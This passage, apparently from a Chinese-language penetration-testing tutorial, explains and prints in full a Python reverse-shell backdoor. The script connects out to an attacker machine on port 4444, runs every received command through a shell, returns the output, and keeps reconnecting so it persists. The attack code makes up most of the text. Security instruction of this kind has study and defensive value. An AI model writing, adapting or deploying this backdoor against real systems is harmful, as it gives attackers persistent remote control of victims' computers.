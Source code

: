 要正常启动脚本，我们需要导入将在整个脚本中使用的模块：

```py
import socket
import subprocess
import sys
import time
```

然后我们需要定义我们的变量：这些值是攻击机器的 IP 和端口，用于建立与以下设备的连接：

```py
HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on
```

然后我们继续定义原始连接；然后，我们可以将一个值分配给已建立的值，稍后再参考该值来读取输入并发送标准输出。

我们返回到之前设置并创建连接的主机和端口值。我们将已建立的连接的值指定为`go`：

```py
def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go
```

然后我们可以引入代码块，为我们完成等待部分。这将等待通过攻击机器的 Netcat 会话向其发送命令。我们确保通过会话发送的数据通过管道传输到 shell 中，然后通过已建立的 Netcat 会话将其标准输出返回给我们，从而通过反向连接让我们能够访问 shell。

我们将名称数据指定给通过 Netcat 会话传递给受损机器的值。向脚本添加值，以在用户完成时退出会话；我们为此选择了`exit`，这意味着进入 Netcat 会话的退出将终止已建立的连接。然后，我们深入到数据被打开（读取）并通过管道传输到外壳中的基本部分。完成后，我们将确保读取`stdout`值并给出`stdout`值（可以是任何值），然后通过之前建立的`go`会话将其发送回我们自己。代码如下：

```py
def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False
```

脚本的最后一部分是错误检查和运行部分。在脚本运行之前，我们确保让 Python 知道我们有一种机制，可以通过使用前面的 true 语句检查会话是否处于活动状态。如果连接丢失，Python 脚本将尝试重新建立与攻击机器的连接，使其成为持久后门：

```py
def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```